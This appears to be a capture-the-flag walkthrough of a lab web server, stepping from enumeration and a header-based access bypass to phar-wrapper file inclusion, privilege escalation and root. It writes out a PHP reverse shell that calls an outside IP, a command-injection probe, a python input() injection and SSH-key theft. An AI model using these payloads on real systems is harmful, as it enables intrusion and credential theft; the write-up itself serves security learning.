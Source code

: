 1 - Enumerate ports

2 - Enumerate info about the website with whatweb

3 - Try to enumerate useful directories with [Nmap](<General Info/Tools/Enumeracion/Nmap.md>) using [http-enum](<General Info/Tools/NSE scripts/http-enum.md>)

4 - Once you've discovered the hidden `/dev` directory you can run the http nse script again with `--script-args http-enum.basepath={path}` giving the /dev as value in order to get additional directories in the specified path

5 - Now that you know that the server has the `/dev/.git` folder you can use the tool [Git-dumper](<General Info/Tools/Git-dumper.md>) to obtain the whole directory into your current folder (Just like a git clone does)

6 - Once you've done all the enumeration you can go into the page and try some attacks on it. A common attack that will come to our mind when we see the page with the funcionality present in it is, at least in order to enumerate a little more, put our ip in the text box and send the request while we're listening at it with [Netcat](<General Info/Tools/Netcat.md>). Another way to take advantadge of the app is by trying to exploit an [OS Command Execution](<General Info/Tecnologias Web/Ataques/OS Command Execution.md>) if you think that maybe the command used to get the source code of the page is [Curl](<General Info/Linux commands/Curl.md>), an easy way to try it could be `http://{IP}; whoami`

7 - After trying some attacks you can go on and enumerate subdomains with [Wfuzz](<General Info/Tools/Enumeracion/Wfuzz.md>) or [GoBuster](<General Info/Tools/Enumeracion/Gobuster.md>). You'll find the dev.siteisup.htb.

8 - Now, you'll see that when you try to enter into the site with the dev subdomain you'll get the forbidden message, this error can be bypassed by adding the header `Special-Dev: only4dev`. This can be done by adding a `Request header` in the Match and Replace section.

9 - Once you've entered into the website you'll see an upload section and, reading the code, you can notice that if you add the `page` parameter in the url you can request the page given. In order to exploit this you can combine the upload section and the page parameter to, using the zip php wrapper, execute a php payload inside a compressed file.

10 - The way to exploit the website is, firstly, upload a compressed file with a random extension like `.hello` that contains a php reverse shell like the one in [Common payloads](<General Info/Payload/Common payloads.md>), secondly send a request to the /upload/{FOLDER}/{COMPRESSED FILE}/{PHP-FILE} with the parameter ?page, this ends like: {IP}/?page=phar://upload/{FOLDER}/{COMPRESSED_FILE}/{PHP_FILE} (You've to keep in mind that the php file of the index page adds the .php extension, so, you don't need to add .php to the {PHP_FILE}), and lastly, obtain the shell in a netcat server. (Important note: look at the usage of the [phar](<General Info/Tecnologias Web/PHP Wrappers/phar.md>) wrapper in this machine)
	10.1 - The previous way to exploit needs to know the blacklisted php expressions in order to make a php payload with an omitted non-blacklisted function. In this machine functions like system(), shell_exec() and exec() are prohibited, so, in order to exploit this we will use the tool [Dfunc Bypasser](<General Info/Tools/Dfunc Bypasser.md>) to automate the search of a legal function to get into the machine
	10.2 - The named tool requires us to execute the function phpinfo() in order to get a info disclousure of all the blacklist in the server
	10.3 - Important note about the app: You've to specify the headers used by the app to bypass the fobidden message, this can be done by adding `headers = {'Special-Dev': 'only4dev'}` in all the requests module calls
	10.4 - The reason behind uploading a compressed file is that, because the app tries to delete the file, you've to give the app something non-readable to make the app crash and skip the step of removing the file from /uploads

11 - Now that you know that the proc_open function is open to use you can try to upload a reverse-shell using this function. eg.:

```
<?php
	$descriptorspec = array(
   		0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   		1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   		2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$shell = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.11/443 0>&1'";
	
	$process = proc_open($shell, $descriptorspec, $pipes);
?>
```

12 - Once you've done everything listed above, you are able to start pivoting and doing privilege escalation. The first thing you've to do is try to enumerate files with SUID in order to change your user (www-data) to developer. The way to do the pivoting is exploit the file stored in /home/developer/dev. This file can be exploited because the binary executes a python2 file that has the input() function, function that executes the code entered instead of only reading it. The particular way to exploit this is `__import__('os').system('bash -p')`.

13 - Now that you're inside of the developer user you can steal the id_rsa file in order to use it to gain the gid of the previously named user via ssh. In order to do this you've to cat out the file, copy the content, paste it in a file in your computer, use it along with the [SSH](<General Info/Tools/SSH.md>) tool: `ssh -i {FILE} {USER}@{IP}`

14 - Now you only have to gain root access, this can be done by, firstly enumerating with `sudo -l` and once you've seen the `easy-install` exploiting it with [GTFOBins](<General Info/Useful Pages/GTFOBins.md>). You've to look for the binary and look for how to exploit it with the SUID permisson